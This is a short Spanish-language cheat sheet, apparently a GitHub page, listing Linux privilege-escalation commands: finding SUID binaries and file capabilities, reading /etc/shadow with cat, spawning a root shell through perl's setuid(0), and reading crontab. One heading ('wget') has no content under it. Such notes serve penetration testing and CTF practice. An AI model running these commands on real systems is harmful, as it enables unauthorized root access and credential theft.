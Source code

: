 ### SUID

```python
	find / -perm -u=s -type f 2>/dev/null
```
### Buscar binarios para escalada de privilegios

```python
	find / -perm -u=s -type f 2>/dev/null
	
	find / -perm -4000 2>/dev/null
```
### Escalada de privilegios con cat

```python
	/bin/cat /etc/shadow
```
### Escalada de privilegios con perl 

```python
	echo -ne '#!/bin/perl \nuse POSIX qw(setuid); \nPOSIX::setuid(0); \nexec "/bin/bash";' > script.pl
	
	perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
	
```
### Escalada de privilegios con wget

### Capabilities

```python
	getcap -r / 2>/dev/null
```
### Tareas programadas

```python
	cat /etc/crontab
```
